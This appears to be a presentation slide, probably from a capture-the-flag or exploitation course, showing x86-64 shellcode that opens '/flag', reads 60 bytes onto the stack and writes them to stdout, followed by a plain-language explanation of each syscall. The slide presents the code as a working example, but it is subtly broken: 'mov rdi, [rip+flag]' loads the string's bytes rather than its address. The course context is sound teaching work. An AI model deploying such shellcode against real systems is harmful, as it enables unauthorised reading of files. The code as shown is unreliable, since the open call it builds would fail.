

# Example Shellcode 1

open:
mov rdi, [rip+flag]
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

read:
mov rdi, rax
mov rsi, rsp
mov rdx, 60
mov rax, 0
Syscall

write:
mov rdi, 1
mov rsi, rsp
mov rdx, 60
mov rax, 1
syscall
flag:
    .ascii "/flag"
Open
file “/flag”
flags 0
mode 0
Read
From fd opened by open
From to the stack
60 bytes of data
Write
To stdout
From the stack
60 bytes of data